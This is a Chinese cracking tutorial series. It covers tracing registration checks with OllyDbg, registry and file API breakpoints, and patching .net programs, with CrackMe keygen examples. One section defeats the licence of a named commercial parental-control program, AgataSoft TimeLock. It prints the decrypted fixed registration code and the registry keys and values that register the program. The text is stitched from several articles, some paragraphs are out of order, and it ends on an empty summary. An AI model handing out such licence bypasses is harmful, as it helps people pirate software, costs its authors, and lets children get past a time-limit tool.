书接上回。上期我们说到，要学会跟踪调试软件，首先要学会“听风”。在未动手之前，掌握可能有用的基本信息，这样才能在跟踪过程中做到有的放矢。当然仅此是不够的，要能够找到破解软件的关键所在，还需要深入“基层”——追踪到相关信息所在地。这一期我来说一说，要达到目的，怎样进行追“风”。

你现在就可以在这里进行滚动翻看了。如果你感觉信息不全，也可使用OD的另外一个插件进行ASCII码搜索或者Unicode搜索，如图2所示。但在使用时这个插件不很稳定，字符稍多会出现异常而关闭OD，所以我是较少使用的。

当我们要查找有关线索时，在OD的文字字符参考窗口里翻来覆去地查看，是不是感觉到很累？而且信息常常太多，有用无用的均包含其中，眼花缭乱的，又不能对其进行选择性的保留，查找实在是麻烦。既然如此，那就请出EmEditor吧（记得我的工具集成说啊）。


## 一 追字符串参考

追风就是查找相关信息在软件中的位置，追风过程就是跟踪软件的实施阶段。我们通过了听风阶段后，已经掌握了一些重要的线索。这些线索在软件注册验证过程中或多或少地有所表现，现在我们需要将其提取出来。要做好这个工作，我们需要启用两个工具——OD和EmEditor。

### 第一步 抓取信息

用OD载入软件（无壳时不用运行，有壳运行到程序入口），在OD的汇编代码区使用右键菜单，选择“搜索->字符串参考”，如图1所示。OD经过一番搜索后，会将它认为有用的字符串列举出来。


在字符参考窗口里使用右键菜单，选择“复制到剪贴板->全部表格”，将其复制出来，如图3所示。将复制出来的结果粘贴到EmEditor中，我们就可以对这些数据进行处理了。为什么不使用上图中的“全部行数”呢？根据使用情况看，我估计是翻译之误，这两个命令极有可能是“整行”和“整个表格”。整行的信息只怕是不符合你的要求吧？

为什么我极力推荐EmEditor呢？Windows的记事本和写字板不也很好吗？呵呵，因为EmEditor的查找功能很特别啊！它可以将所有找到的匹配信息进行着色处理，而且经久不退呢（只要你不关闭它，不论是否还在查找），这样查看起来是不是更方便了很多？反正我是老眼昏花，有它帮忙定位，自然省事不少。


### 第二步 去伪存真

现在搜集的信息已经足够多了，我们需要有保留地删除一些，留下有用的。那么，哪些东西需要保留呢？

- 1) 软件标题栏可能有的“预览版、测试版、评价版”等字样应该保留，在它的附近可能存在注册情况的判断，可作为爆破点使用。例如：

```asm
00403B90  MOV EDX,atani.00623E93  ASCII "Atani ..."
(GIF and AVI animator). Now you are using the unregistered version (only for try).
```

- 2) 与注册时的反应相关的字符串应该保留，通过它可以回溯到关键判断处，即使没有做任何判断（重启验证型），也有可能看到将你的注册信息放到哪里了，为我们下一步的跟踪提供操作依据。例如：

```asm
00523D34  MOV ECX,atani.006543FE  ASCII "Error"
00523D39  MOV EDX,atani.006543E1  ASCII "Enter the registration code."
```

还记得上一讲中的未输入任何信息的提示吗？就是它喽，如图4所示。


- 3) 一些怪异的字符串应该保留，它可能就是对话框中的提示信息的密文。如果是，则定位于关键点就比较容易。例如：

```asm
00423309  MOV EDI,IDMan.0058AEC4  ASCII "..."
0042331F  PUSH IDMan.0058AEC4      ASCII "..."
0042334E  MOV EAX,IDMan.0058AEA4   ASCII "..."
```

- 4) 与系统里路径有关的字符串应该保留，很多软件都将注册信息以文件形式（如DLL）保留在系统的某个文件夹里，可作为下断点的依据。

- 5) 与注册表路径相关的字符串要保留，并且一般在这个字符串附近的较短字符串也应该保留，那可能就是键名，可能与注册信息相关，可作为下断点的依据。例如：

```asm
005FDC18  PUSH atani.005FDDA4  ASCII "Software\Borland\Locales"
005FDC36  PUSH atani.005FDDC0  ASCII "Software\Borland\Delphi\Locales"
```

但这类信息要注意甄别，与注册信息相关的路径一般会与软件名称或者开发者的特定缩写标志有关，所以这个例子的信息一般是不保留的。

- 6) 一些软件在检测到你的注册码不正确时会打开一个网页，指示你如何注册。故如果包含有网址之类的信息时，应予以保留，在它的前面常包含有对注册情况的判断。

- 7) 表格中反汇编部分是ASCII标识的，通常不能下断点，无法直接利用，可以删除。例如：

```asm
0040148C  ASCII "Exception: ..."
004014C8  ASCII "System::AnsiStr..."
```

- 8) 如果你有些编程经验，很容易识别出一些字符串是软件中使用的函数名，大多数价值不大，可以删除。例如：

```asm
00406857  MOV EDX,atani.00624061  ASCII "Show"
0040686D  MOV EDX,atani.0062405B  ASCII "Alpha"
004068F4  MOV EDX,atani.0062406B  ASCII "Flying"
0040690A  MOV EDX,atani.00624066  ASCII "Text"
```

- 9) 不同的编程平台会在软件中留下调试信息或者标识符等，且不同的平台表示方法各异，这些东西应该删除（占有很大的成分）。这些东西的识别平时要积累经验，且一般都是连体字符。例如前缀为“T”是Delphi的特有标志。

```asm
00540118  DD atani.00540164  ASCII 0B,"TOctreeNode"
00540138  DD atani.00540164  ASCII 0B,"TOctreeNode"
```

或者：

```asm
005FEB1A  PUSH atani.00663806  ASCII "@Borlndmm@SysGetMem$qqrv"
005FEB27  PUSH atani.0066381F  ASCII "@Borlndmm@SysFreeMem$qqrpv"
005FEB34  PUSH atani.0066383A  ASCII "@Borlndmm@SysReallocMem$qqrpvi"
```

好，通过一番海选后，剩余的信息就少多了，观察起来也就容易多了。再仔细考察一下，可能还有很多的东西需要去掉。如果你拿不确切，直接作为破解记录保存好了，以后还有什么需要，就不用再次搜索字符串了。正所谓磨刀不误砍柴功嘛，不能怕麻烦。

### 第三步 设置断点

我们的资料已经整理好，现在该使用它了。选择你在听风时记录的反应信息，看看在我们的资料里是不是存在。若存在，看看它的地址（也称为偏移）是多少（第一列），然后返回OD的字符参考窗口，在那一行上点击一下（选中），接着按F2键，一个断点就下好了。仿此，在所有你认为可疑的地方都设置好断点。现在实际操作一下，只要符合以前的操作过程，一般都会在断点处被成功拦截的。剩下的就是将断点逐渐前移，动态地观察所发生的现象了。

当然，有时候我们在资料里没找到有关的字符串，这并不是说字符串不存在。可能的情况是：字符串被加密了；在怪异字符串处下断点，注册验证是在动态链接库（DLL）中进行的；在那里搜索一下，字符串是在软件中以数组的形式在运行时赋值的方式给出的，这种情况一般不易找到合适的断点，只能通过其它的操作来逼近；也有可能软件是双进程的，真正运行的是它的替身（影子系统？）等等。

更当然，软件里根本就没有这些字符串。那这些字符串在哪里呢？这时我们就要注意软件的功能了。现在有很多软件是多语言版的，这些字符串其实在语言文件中。这种形式的问题，即使软件中存在对应的字符串，那也是作为资源ID使用的。即使你下好了断点，也只能在初始化（启动时）时被断住，以后就不会使用这个标识符了，故而表现出断点无效。这种情况你就得分析提示信息的窗体属于什么类型了。如果是消息盒窗体，就应该使用API断点拦截。当然也可以在加载完语言文件后，使用硬件访问断点，使得软件在需要调用这段字符串时被拦截下来（跟踪速度较慢）。如果是在输入注册信息的窗体上显示，可采用加载资源的API试试。若是单独跳出来一个普通窗体，嘿嘿，那就问题严重喽，麻烦也就大多了。

理论上，只要出现字符串，就没有不透风的墙。软件作者巧妙设计，就看你的思路是否开阔。我就曾经遇到过，软件在安装时将提示信息放到注册表里了，你会想到到注册表里去找吗？

## 二 追踪注册表读写

软件一般是要求注册的，而注册的信息需要位置存放。有的存放的是注册信息的明码形式，有的存放的是加过密的信息，还有一些存放的是是否注册的标志信息，不论是什么模式，都需要存放在一个位置上。而现如今，绝大多数软件都是将注册信息存放在注册表中。所以，作为破解爱好者，对注册表简单的查找和编辑都是必须掌握的。当然，直接操作注册表还是应当小心的。如果你不熟悉就不要乱动，只要到对应位置看看注册信息是如何存放的就行了。掌握了注册信息的存放方式和意义，不用于其它的什么，照样可以玩注册。如果你也想看看，可按下面的方法进行。

点击Windows的“开始→运行”，在出现的对话框中输入“regedit”，单击确定后，注册表编辑器就会启动。注册表是现代电脑保证正常运行的关键处之一，切忌随意更改里面的内容。注册信息保存的位置通常在如图5所示的三个主键之下，并且也一般在形如HKEY_CURRENT_USER\Software的路径之后，与Software同级的地方可以不予考虑。我们再看看下级目录里一般保存的是什么，如图6所示。


图5


图6

对，这里存放的是软件的名称，这就是我们的查找依据之一。再看看我的PhotoShop V7的注册表结构，如图7所示。根据英文名字，现在你是不是很容易地就知道了注册信息放在哪，怎么存放的了呢？


图7

但是，我们这里不是要研究这个。软件在检查验证信息的正确性的时候分为两种形式，一种是即时验证，一种是重启验证。而事先我们不知道注册信息应当放在什么地方，注册表只是怀疑对象之一而已。有时，软件被你意外地注册了，而你又没搞清楚，想重来一次，可请求注册的提示框不再出现了等等。有时玩些花样，不想每次都输入注册信息来跟踪注册算法（烦啊！），就在注册表中预先构造虚假信息，然后慢慢跟踪分析，省事不少。这时都少不了需要拦截对注册表的读取。那么怎么拦截呢？自然是拦截API函数啊！

通常，软件对注册表的操作时使用的API函数包括ADVAPI32.RegOpenKeyExA、ADVAPI32.RegCreateKeyExA、ADVAPI32.RegQueryValueExA、ADVAPI32.RegSetValueExA和ADVAPI32.RegCloseKey。它们的作用分别为：打开注册表中对应的主键、在注册表的对应主键下设置子键、读取对应子键的数据、给某个子键赋值、关闭主键等；它们分为两类，分别为尾部是否带有字符串“A”。

注册表操作属于文件操作的形式。按约定，文件操作中打开与关闭的操作必须成对出现，否则会发生错误或者丢失信息的现象。跟踪软件时，若是进行注册操作，应该注意函数 `ADVAPI32.RegCreateKeyExA` 和 `ADVAPI32.RegSetValueExA` 调用时的参数。如果是重启验证，则应当注意函数 `ADVAPI32.RegQueryValueExA` 调用时的参数。而这两种情况下都应当注意函数 `ADVAPI32.RegOpenKeyExA` 调用时的参数，这里的参数指明了注册表中的实际路径。一般情况下，`ADVAPI32.RegCloseKey` 就不用管了。

我们该怎么设置注册表的操作断点呢？你可以有以下几种选择。

第一种，在命令行中输入断点标志和函数名称后敲回车键，如图8和图9所示。注意函数名称需要区分大小写，断点的模式在右侧给出提示。


第二种，是我的专用方式（我嘛，英文不认得，记得几个，这样适合我）。只给出不全的函数名或者根本不是的字符串，如 `bpx get`，回车后，OD糊涂了，我可就明白了。OD不知道我下的是什么断点，只得将所有它认为是函数的都在一个弹出的窗口里给列表显示出来。效果如图10所示。

图10：函数列表窗口（按目标字段排序）

我呢，在目标字段上单击一下，则函数的名称就按照字母顺序排列起来了（便于观察），然后就根据我的设想和所知，拖动窗口右侧的滚动条，定位于所需要的函数名处，例如 `ADVAPI32.RegQueryValueExA`。在这个函数名称上单击鼠标右键，选择“设置每次调用 `RegQueryValueExA` 的断点”，如图11所示，则所有调用 `RegQueryValueExA` 之处都给下了断点（一个不落）。如果已经下过断点了，这个右键菜单会多出取消断点的选项（同一函数的全部断点），可做出相反的操作。因为我们事先不知道在哪个地方是合适的断点，这种宁可错杀一千，不可漏掉一个的方法是很有用的，不合适的断点可在运行时给予取消。

大多数情况下，如果拦截到读取注册信息，验证部分就在后面不远处了；那么怎么判断断点是否合适呢？这个必须在动态跟踪时予以观察，也常借助于堆栈的显示（不必回头看代码，速度快），这些函数的汇编代码一般如下：


```asm
0040CB1E  PUSH EDX            ; /hKey
0040CB1F  PUSH 20006          ; |Access = KEY_WRITE
0040CB24  PUSH 0              ; |Reserved = 0
0040CB26  PUSH ECX            ; |SubKey => "Software\\Atari v4"
0040CB27  PUSH 80000001       ; |hKey = HKEY_CURRENT_USER
0040CB2C  CALL ADVAPI32.RegOpenKeyExA
```

以上这些只用于打开注册表，主要看清注册表中的路径。

```asm
0040CB3F  PUSH 4              ; /BufSize = 4
0040CB41  LEA EAX,[EBX+99C]   ; |Buffer
0040CB47  PUSH EAX
0040CB48  PUSH 4              ; |ValueType = REG_DWORD
0040CB4A  PUSH 0              ; |Reserved = 0
0040CB4C  PUSH atani.00624300 ; |ValueName = "Start"
0040CB51  MOV EDX,[EBP-48]
0040CB54  PUSH EDX            ; |hKey
0040CB55  CALL ADVAPI32.RegSetValueExA
```

以上这些用于读取数据，不显示路径，只显示主键名，返回结果放在Buffer中。我们可在未执行前，在堆栈里使用“右键菜单->在转存中跟随”，执行后在转存中即可看到有关的数据。其它的函数类似，我就不多做说明了。

## 三 追文件操作顺序

很多软件的注册信息不是保存在注册表中，而是保存在某个地方的文件中。这样，读取和写入时都需要调用API函数，而且在调用之前，必须要取得文件路径和文件名。一些作者使用明文作为路径文件名，这种情况通常可以采用搜索字符串参考的方法得到。为了加强保密性，很多软件作者使用了加密字符串，这种情况若是明文也好办。有的较为讲究的作者使用了动态数组赋值的方法进行，此时追查路径文件名就会遇到麻烦。若是存放在当前安装目录下，可以使用查看更新日期；如果存放在其它位置，即使用查看日期的方法也比较困难，此时，合适的断点就显得比较重要了。下面API函数是常用的文件操作函数：

- ReadFile——读取文件内容  
- WriteFile——将信息写入文件  
- OpenFile——打开文件  
- WritePrivateProfileStringA——写信息到文件  
- GetPrivateProfileStringA——从文件中读取信息

这里的重点是OpenFile函数。这个函数像注册表操作函数一样，也是成对出现的。它的重要参数之一就是路径文件名，将它拦住，再怎么加密的字符串都是枉然，因为参数必须是明文字符串的。ReadFile和WriteFile是一对，可对任何形式的文件进行读写操作。GetPrivateProfileStringA和WritePrivateProfileStringA是一对，主要用于带有格式化形式的配置文件进行读写操作。它们甚至可以对软件自身进行，一些人制作的破解补丁往往就采用了这种方式。

## 四 追时间处理

时间限制版的软件，在安装时会记录系统时间，并将它们保存在一个地方。在使用时也会记录系统时间，并与安装时的记录做出比较，然后给出相应的提示。软件检测到到期后，就不让运行，或不注册就不让运行。这种情况使用函数GetSystemTime比较合适，相关的时间计算及比较定会在其后进行，拦截后能快速定位爆破点。

另外一种情况是限次版软件，每运行一次计数一次，常常是关键点还没找到就到期了。这时上面的函数就没有作用了，简单的追查方法就是查找常数。例如，假设允许你试用50次，50的十六进制表示为32。在OD中使用右键菜单“搜索->全部常数”，如图12所示，有时会搜索出很多，我是懒办法一个，全部下断，运行时不是的随机删除。使用“搜索->常数”倒是简单，但可能结果不是你要的。重新来，你烦不？


还有一些软件采用了不定时提示注册的方式要求进行注册提示，这其实是函数SetTimer在作怪。会编程的人都知道，Timer有三个主要内容：定时器、是否允许运行、多长时间触发一次。跟踪时全部都下断，等待，看是谁被触发，只需要将触发时长改为0就可以了。如果是不定时出现提示，则是使用两个定时器联动，一个产生随机数，一个调用提示框。只要细心观察，鱼不会漏网的。

## 五 追输入信息的读取

对于注册式输入的注册信息的拦截，多数情况下可使用函数GetWindowTextA和函数GetDlgItemTextA来拦截。随着编程人的技术情况不同，使用哪种方式也多样化。因为方式较多，也就不好一一列举了。另外，编程平台不同，注册信息的读取方式是不同的，应注意区别。这个问题我会在另文中解说。

## 六 追机器码来源

现在软件的作者越来越注意使用指纹信息来保护软件了，使得软件的注册码趋向于唯一性，不能通用。就目前我所见过的情况来看，指纹信息的采集主要来自硬盘序列号、网卡序列号和CPUID，自寻烦恼者使用硬盘逻辑分区卷标。软件根据采集到的信息，经过一系列的变换得到一个字符串来作为软件的机器码（亦称序列号、ID什么的）。通常，采集硬盘信息使用函数DeviceIoControl，采集网卡使用函数netXXX（XXX代表我忘记了的部分），而CPU的信息采集使用的是汇编指令CPUID。前两个可采用API断点拦截，后面的应该采用搜索全命令的方式进行，即在OD中使用右键菜单“搜索->全部命令”，在弹出的对话框中输入CPUID，如图13所示，回车后，所有找到的指令都会被列出，下断吧。


如果采集的是硬盘逻辑分区的卷标，则一定使用的是函数GetVolumeInformationA。为什么我说这种方法是自寻烦恼呢？因为分区卷标是可以变……化的。我们每安装一次操作系统，或者格式化硬盘，卷标就改变一次，软件的机器码也就跟着改变。我向软件作者已经付过钱了，现在不能用了，你能不管吗？而我等经常重装系统，特别的情况下可能一天装两次，光回复邮件可能就要弄断你的手了，呵呵！

## 追踪DLL调用

这对于一些人来说可能是个新鲜话题，DLL还用追吗？你那些API函数不都在DLL里吗？

不错，确实如此。但是，如果软件的注册码算法在作者自己编写的DLL里，你能像一般的软件那样跟踪吗？如果作者编写了几十个DLL，你知道哪一个是注册用的吗？你用API断点能断住它们吗？只怕是不那么简单。

我们知道，DLL是能够动态加载的。也就是说，软件要使用它时就加载，不用时就从内存中清除（能想到并做到的才称得上是编程高手）。所以，你通常是拦截不到它的，并且是常常连影子都见不到。故而拦截的时机是很重要的。

那么我们该在什么时候拦截呢？如果软件确实是使用了DLL进行注册验证，拦截的最佳时机是输入注册信息与弹出注册成功或者失败的时候。因为这段时间要进行验证，肯定要载入DLL。

怎么拦截？使用我的“bpx get”懒人大法（什么法？往前看！），在列表框中仔细查找你心中的那个DLL。如果能看出函数名那就最好不过了，看不出来就下全断（不信能飞上天了），接下来的工作就靠你自己了。

不懂编程可以学习破解，能编程又学破解则善莫大焉，如有可能还是兼学一点编程吧！

##### 范例学习

今天的范例是一款能帮助全球的父母限制孩子使用计算机，只允许他们在每天的特定时间玩电脑的软件。当超过允许时间时，计算机会被锁住，使用者会得到超过时间的警告，只有输入正确的密码计算机才会解锁。这款软件的官方网址是 http://agatasoft.no.com.ua/ 。

这款软件在启动时有一个请求注册的对话框，如图14所示，需要姓名和注册码进行注册，但注册按钮却是不可用的。随意输入注册信息，注册按钮均不能处于可用状态，这说明注册信息是动态判断的。这种情况下，一般方法和工具都是无用的。

我们用OD载入软件 AgataSoft TimeLock.exe，搜索字符串（需要先脱壳），通过排查，得到如下一些可疑的东西。


```asm
00473FF2    MOV EDX,un_Agata.00474050
ASCII "54176512655124"
004744EA    MOV EDX,un_Agata.00474804
ASCII "txu}u}t`xxx"
0047CC9C    DD 00DF8288        ASCII "12345678123456789"
0047CCC4    DD 00DF9B84        ASCII "txu}u}t`xxx"
```

以上代码为数字串和怪异字符串。

```asm
00474677    MOV ECX,un_Agata.00474830
ASCII "reg"
0047467C    MOV EDX,un_Agata.0047483C
ASCII "Software\\Agatasoft\\AgataSoft TimeLock\\Options"
004746FF    MOV ECX,un_Agata.00474830
ASCII "reg"
00474704    MOV EDX,un_Agata.0047483C
ASCII "Software\\Agatasoft\\AgataSoft TimeLock\\Options"
```

以上代码为对应的注册表专用字符串。

本着先易后难的原则，我们将“54176512655124”作为注册码输入到注册码输入框中，得到的结果如图15所示。密码正确？那干嘛还每1秒钟弹出一个消息提示？这不明显是要吃我的系统资源吗？很显然，是作者有意而为之。若是将字符串“12345678123456789”作为注册码输入，则毫无动静。放弃！


根据对注册表的操作，猜测字符串“reg”为注册码的缩写，将断点下在00474677以及004746FF两处，并且下 RegOpenKeyExA 和 RegQueryValueExA 等API函数断点，按F9运行后来到这里。

```asm
00474677  MOV ECX, un_Agata:00474830
ASCII "reg"
0047467C  MOV EDX, un_Agata:0047483C
ASCII "Software\\Agatasoft\\AgataSoft TimeLock\\Options"
```

我们向上滚动代码区，在如下代码处下好断点，使用CTRL+F2重来。

```asm
004744EA  MOV EDX, un_Agata:00474804
ASCII "txu}u}t`xxx"
```

之后按F9运行，看看第一次所做的操作。

```asm
004744EA  MOV EDX, un_Agata:00474804
004744EF  CALL un_Agata:00404558
004744F4  MOV EAX, DWORD PTR SS:[EBP-4]
004744F7  CALL un_Agata:00404780
004744FC  MOV ESI, EAX
...
0047452B  JNZ SHORT un_Agata:00474508
```

这个过程是对字符串“txu}u}t`xxx”进行解密，解密的结果为“95808093555”。我们记住这个结果，然后用F8缓慢跟踪……

```text
0012FD44  00000098   hKey = 98
0012FD48  00474830   ValueName = "reg"
0012FD4C  00000000   Reserved = NULL
0012FD50  0012FD78   lpValueType = 0012FD78
0012FD54  00000000   Buffer = NULL
0012FD58  0012FD74   pBufSize = 0012FD74
```

然后会来到这里。

```asm
004746FF  MOV ECX, un_Agata:00474830 ; "reg"
00474704  MOV EDX, un_Agata:0047483C
ASCII "Software\\Agatasoft\\AgataSoft TimeLock\\Options"
00474709  MOV EAX, 80000002
0047470E  CALL un_Agata:0046FA34
```

```asm
00474716  MOV EDX, DWORD PTR SS:[EBP-4]
00474719  CALL un_Agata:004048CC
0047471E  JE SHORT un_Agata:00474729
00474720  MOV DL, 1
00474722  MOV EAX, DWORD PTR DS:[47CC48]
00474727  CALL un_Agata:00462CC4
```

以上代码表示如果相等就跳过，否则就出现请求注册对话框。若是相等，则（堆栈）……

```text
0012FD44  00000098   hKey = 98
0012FD48  00474874   ValueName = "n"
0012FD4C  00000000   Reserved = NULL
0012FD50  0012FD78   lpValueType = 0012FD78
0012FD54  00000000   Buffer = NULL
0012FD58  0012FD74   pBufSize = 0012FD74
```

从这段代码可以看到这里的主键为字符串 n……于是可以在注册表中新建两个主键“reg”和“n”，键值分别为“95808093555”和“laoxuetong”。重新启动软件后，软件已经正确注册。


故而我们的结论是：这款软件的注册码为固定数字串95808093555，注册码在软件中被加密存放。随后重新注册验证，效果如图17所示。


这款软件注册方式虽然较简单，但关键在于抓取信息、跟踪信息、观察信息并组合信息。错了可重来，解密既靠运气也靠经验与观察力。

上期问题解答：“Confirm”仅是确认按钮；真正进行验证的是“OK”按钮。该软件属于重启验证型，关键点在于通过查找注册信息保存位置得到结论。好了，今天就先说这么多吧，咱们下期见！

适合读者：破解爱好者  
前置知识：.net

## 手把手教你.net程序加解密之一：初识.net程序破解

文／图 tankaiha(vxer.cn)


2002年，微软推出了一个新名词.net。如今，有基于.net框架的软件越来越多，最新的Vista中甚至直接内置了.net框架而无需另外安装。有基于.net框架的软件，就会有相应的加密与解密。本文及接下来的一系列文章将以几个Crackme为例，带着大家领略.net下程序逆向与加解密的魅力，学习最基本的.net程序分析及调试技术。

## .net简介

究竟什么是.net？一句话还真说不清楚，不如先来了解几个与加解密相关的基本概念。.net是个独立于操作系统的平台，类似于Java，现在最常见的是2.0版，Vista中内置了所有的四个版本。.net程序的运行过程与传统Windows程序不同，传统的Win32/64程序的可执行文件中保存的是本地汇编代码，而.net可执行程序中保存的是微软中间语言MSIL。每当程序运行时，由.net框架负责将这些MSIL代码即时编译成本地汇编再运行，这个过程叫JIT。.net可执行文件中不但保存了代码，还有元数据（Metadata），元数据是描述这个程序应该如何执行的信息。先讲这么多吧，暂时不明白也没关系，后面的分析过程中我们再详细解释遇到的概念。

##### 调试环境架构

由于Vista之前的操作系统没有内置.net，需要另外安装。我们以最常见的Windows XP和2.0版.net为例，详细了解调试环境的构建过程。首先在微软网站上下载.NET Framework 2.0版可再发行组件包，这个运行库是永久性的，安装一次便可以运行所有的.net 2.0程序。其次便是下载Microsoft .NET Framework 2.0软件开发工具包（SDK），开发包中含有编译和反编译.net程序的基本工具。如果有条件，你可以直接安装Visual Studio 2005，其中包含了上面的运行库和SDK。安装后试着运行一下本文附件中的sample.exe，如果正常运行，代表.net环境已经成功安装了。

## 静态分析.net程序

喜欢逆向的读者都知道，程序逆向的分析方法有静态分析和动态调试，下面就介绍.net下的静态分析方法。

sample.exe是一个最简单的.net程序，由C#写成，源代码在sample.cs中。编译过程如下：在开始菜单中找到SDK命令行，如图1所示，进入CMD窗口，来到sample.cs所在的目录，运行 `csc sample.cs`。


图1

为什么要介绍程序的编译呢，我们不是要进行解密吗？因为.net支持一种特殊的操作，即反编译得到源代码，修改后再编译回可执行程序。在某些情况下（如需要修改部分代码），必须对原程序进行这种二次编译的操作。

下面开始对sample.exe进行静态分析。首先出场的是.net下反编译领域的宝刀：Reflector，它最强大的功能是直接以高级语言（如C#、VB）显示程序的源代码，简直就和原作者的代码一模一样。我们用Reflector载入sample.exe，来到入口方法Main处（在右键菜单中选择“跳至入口点”，如图2所示），查看的语言可以选择C#或者MSIL。对比可以看出，反编译代码的高级语言形式其可读性比汇编语言高很多。


图2

Reflector的功能还有很多，这些将在以后用到的时候介绍。这里还有一个小问题，反汇编代码中有很多形如“\u6b63\u786e”之类的字符串。其实，这些字符串是中文字符在.net中的编码，本文附件中提供的StrParser可以直接将其解码为汉字，如图3中的“\u8bf7\u8f93\u5165\u5bc6\u7801”解码为中文字符串“请输入密码”，如图4所示。


Sample.exe的程序流程很简单，静态分析结果一目了然：比较用户输入是否为预先给定的字符串，并显示对应的正误信息。对于常见程序，得到流程后通常有两种处理方式：写注册机或直接破解。该示例不需要写注册机，下面介绍.net下通过修改程序/补丁的方式。


## 修改.net程序

破解方法有两种：一是反编译后修改再编译；二是直接用十六进制编辑器改文件。第一种方法需要使用SDK提供的ILDASM与ILASM。打开ILDASM载入sample.exe，导出IL代码并保存为dump.il。


接着分析MSIL：程序将用户输入与字符串“tankaiha”比较，得到1/0后再次与0比较；若第二次比较结果为1则在 `brtrue.s` 处分支到错误信息，否则继续执行。


修改方法很简单：去掉 `brtrue.s`，让程序总是显示正确信息。需注意保持栈平衡，因此不能简单改 `nop`，而应将相关位置改为 `pop`（弹栈），既改变流程又保证栈平衡。

修改后保存，在SDK命令行执行 `ilasm /resource=dump.res dump.il` 重新编译生成dump.exe。运行后任意输入都将显示“正确”。

第二种方法是直接改原文件字节：在ildasm的View中打开show bytes，找到对应MSIL指令字节，再用十六进制编辑器定位并替换。

```msil
IL_0016: call bool [mscorlib]System.String::op_Equality(string,string)
IL_001b: ldc.i4.0
IL_001c: ceq
IL_001e: stloc.0
IL_001f: ldloc.0
IL_0020: brtrue.s IL_0031
```

例如可搜索 `280500000A16FE01`，并将 `2D0F`（`brtrue.s`）改为 `2600`（`pop` + `nop`），保存后程序效果与反编译修改一致。


##### 小结

本篇示例较基础，仅用于入门说明.net逆向思路。示例sample.exe未使用复杂保护或反调试。后续将以ARTeam系列Crackme为例，进一步深入讨论.net程序逆向分析。

适合读者：破解爱好者

前置知识：.net

## 手把手教你.net程序加解密之二：名称混淆与代码的重用

文／图 tankaiha(vxer.cn)

上回介绍了一些.net解密相关的基础知识，大家一定觉得很容易吧？从本期开始，我们将以ARTeam的.net CrackMe系列为例，由浅入深地介绍.net程序解密的实战技术。今天，我们要分析的程序是该系列的第一个CrackMe，其说明中介绍了它运用的保护方式，包括强名称、名称混淆和加密字符串，下面我们就开始一步步地分析这个程序，并在分析的过程中详细介绍所遇到的保护方式。

##### 运行程序

拿到程序的第一步通常是先运行一遍，以了解程序的注册方式。这个CrackMe让用户输入注册码，并有出错提示，如图1所示。这是目前最常见的一种注册方式。


##### 静态分析

除了某些内核级保护的程序外，通常的.net程序都可以由静态分析来破解，工具仍然使用第一篇文章中提到的Reflector。打开Reflector，载入程序，可以看到如图2所示的程序结构。其中，大多数类与方法的名称都变成了乱码，这便是名称混淆。名称混淆正是通过改变元数据中类、方法和成员等的名称，使程序的可读性大大降低，从而增加静态分析的难度。


下面正式开始定位关键代码。这里我们利用了Reflector的分析功能，分析有什么代码调用了这个解密字符串方法。需要注意的是，对于大程序，这可不是个好方法，因为一个程序中会有成千上万处调用了解密字符串的方法，所以搜索结果是无法利用的。大家会在今后的实践过程中慢慢总结出一套自己的分析经验的。

在解密方法上单击右键，选择Analyse，在分析窗口中展开“Used by”节点，结果就是程序中所有调用字符串解密的地方。其中有两项的参数形如“(Object, EventArgs)”，了解.net编程的读者立刻就能知道，这是.net的事件，而按钮方法的参数就是这样的，如图4所示。

分析思路：找到“Register”按钮点击的相应代码，并分析算法。那么如何定位这个关键代码呢？对于这个小小的CrackMe，我们可以逐项浏览；但对于大型程序，这个方法就不可行了。第二种方法是字符串搜索，也就是在程序中搜索一些含有敏感信息的字符串，并分析使用这些字符串的代码，这个方法在Win32下很常用。在本例中，无论是按钮名称“Register”或弹出窗口的信息“Invalid key”都是可以利用的敏感字符串；但如果你试着在Reflector中搜索，却得不到任何结果，为什么呢？因为程序的字符串被加密了。图3中的代码便是程序中用来解密字符串的代码。原来这个CrackMe将所有的字符串加密后保存在资源中，在使用时只需要提供stringID便可以还原出原字符串。对于大型程序，可以编写相应的解密程序来得到原始字符串，从而搜索敏感信息，这个小程序就用不着如此大费周折了。

图4

只有两项的话，就很好分析了。果然，第二处“(Object, EventArgs)”便是 Register 按钮的代码。在右键中选择“Go to member”便可以来到这个方法处。

##### 算法分析

到这里，我们就已经定位到关键代码了，接下来应该分析算法了，代码如下所示。

```csharp
private void (Object sender, EventArgs e)
{
    if (this.Text.Trim() == null)
        Interaction.MsgBox((0x758), MsgBoxStyle.Information, null);
    else if (this.Text.Trim().Length < 6)
        Interaction.MsgBox((0x799), MsgBoxStyle.Information, null);
    else
    {
        string right;
        byte[] bytes = Encoding.ASCII.GetBytes(this.Text);
        int index = 0;
        do
        {
            int num;
            num += bytes[index];
            right = right + ((bytes[index] + num)).ToString();
            index++;
        }
        while (index <= 5);
        if (Operators.CompareString(this.Text, right, false) == 0)
            Interaction.MsgBox((0x833), MsgBoxStyle.Information, null);
        else
            Interaction.MsgBox((0x854), MsgBoxStyle.Critical, null);
    }
}
```

由于 Reflector 直接将原程序反编译为 C# 高级语言的形式，所以程序流程相比汇编而言是很好分析的。首先比较注册码是否为空或长度小于 6，是则出错。如果这两项判断正确，则进入第二步比较：对用户名进行 5 次循环计算，结果存放在 right 中，并与注册码比较。不过，在这里 Reflector 犯了个小小的错误，你能看出来吗？

##### 注册机的编写

很多时候，.NET 程序的代码是可以直接利用的，比如这里的注册算法，下面我们就直接利用原程序的代码来编写注册机。新建 reg.cs，并在其中键入如下代码。

```csharp
using System;
using System.Text;
class Class1
{
    public static void Main()
    {
        Console.WriteLine("请输入用户名：");
        string right = null;
        byte[] bytes = Encoding.ASCII.GetBytes(Console.ReadLine());
        int index = 0;
        int num = 0;
        do
        {
            // 注意：反编译代码中这里应将 int num = 0 放在 do 上面
            num += bytes[index];
            right = right + ((bytes[index] + num)).ToString();
            index++;
        }
        while (index <= 5);
        Console.WriteLine("注册码为" + right);
        Console.ReadLine();
    }
}
```

很明显，其中的“do…while”循环是直接复制原程序的，我们所做的修改仅仅是将原程序的从文本框取用户名改为让用户自己输入（不过 Reflector 在反编译中出现了错误，应该将“int num = 0”的语句放在 do 循环外）。在 .NET SDK 中键入“csc reg.cs”进行编译，就得到了注册机。运行一下，我们就可以得到相应的注册码了。

图5

将得到的注册码在 CrackMe 中测试一下看看是否正确，如图6所示，看来我们的算法是正确的。

图6

##### 小结

